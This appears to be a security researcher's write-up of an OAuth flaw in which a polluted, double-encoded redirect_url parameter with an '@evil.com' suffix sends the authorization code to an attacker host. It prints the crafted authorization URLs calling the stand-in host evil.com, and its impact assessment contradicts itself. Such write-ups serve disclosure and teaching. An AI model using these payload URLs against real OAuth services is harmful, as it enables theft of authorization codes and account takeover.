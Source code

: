 # Stole the OAuth code or token with an open redirect because of a parameter pollution .

## How:

The application provides a service for third party applications to create an oauth app with it, Lets call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So inorder to do this the third.com has to ask example.com to make him an oauth application, This is just to demonstrate the feature .

So what happens after you clicking on signin with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value] , So by visiting this endpoint example.com will ask you to consent third.com then redirects you back to third.com with the oauth code .


So I thought about what will happen if I added another redirect_url parameter like this https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value], By doing this I found that example.com redirects me to third.com but with this intersting way https://third.com/callback/,https://evil.com?code=[some value]&state=[some value], Noticed the  ",http://evil.com", I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this redirect_url=https://third.com/callback&redirect_uri=https://evil.com and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can i get an openredirect by this clearly the client code adds the character "," before appending the two redirect_uri like this "=https://third.com/callback,https://evil.com", I thought about removing the https:// part from the second redirect_uri and add a dot charater like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has , or / .


So what about adding @ sign rather than using dot but ofcourse this didn't work also because if you redirected to endpoint like this https://third.com/callback/,@evil.com it won't redirect you to evil.com, So what is about encoding, If tou tried to paste this in a browser admin@evil.com you will see that a browser like firefox treats the first part befor @ as a user name so it's like conecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this https://third.com%252Fcallback%252F .


Why double encode it? because, If you redirected to an endpoint like this https://third.com%2Fcallback%2F,@evil.com you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decode it %2F but the second time it won't decode it to / so that the final redirection will be like this https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state] and you will be redirected to evil.com with the oauth code and you succedded to steal the oauth code.


So where is the problem? at the backend however that it recieves the first redirect_uri like this https://third.com%252Fcallback%252F but what it does is that it double decodes it then validate it against the stored value and ofcourse it will be true so it will return the oauth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the oauth code so the impact is low .

Ehat is the impact? the impact is high this application provides oauth apps to third party applications so every third party application is affected by it, It can lead to account takeover or sensitive data leak .


